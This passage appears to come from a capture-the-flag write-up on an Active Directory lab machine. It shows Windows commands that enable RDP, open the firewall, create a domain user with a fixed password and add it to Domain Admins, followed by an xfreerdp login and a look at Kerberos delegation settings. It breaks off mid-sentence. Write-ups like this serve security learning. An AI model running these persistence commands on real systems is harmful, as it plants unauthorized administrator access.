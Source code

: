 To enumerate this, I just enabled RDP and created another domain admin user:

{% code overflow="wrap" %}
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
net user rdpuser Password@123 /add /domain
net localgroup "Remote Desktop Users" rdpuser /add
net localgroup "Administrators" rdpuser /add
net group "Domain Admins" rdpuser /add /domain
```
{% endcode %}

Afterwards, I used `xfreerdp` to get in:

```
$ xfreerdp /u:rdpuser /p:Password@123 /v:10.129.197.120
```

When viewing the delegation settings, I noticed that `ldap_monitor` had the Delegation tab:

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

The `oorend` user did not have this tab:

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

For some reason, `ldap_monitor` was technically allowed to delegate and the `oorend` user was not. I found few resources that explained this well, but basically it seems that `ldap_monitor` does have an SPN:
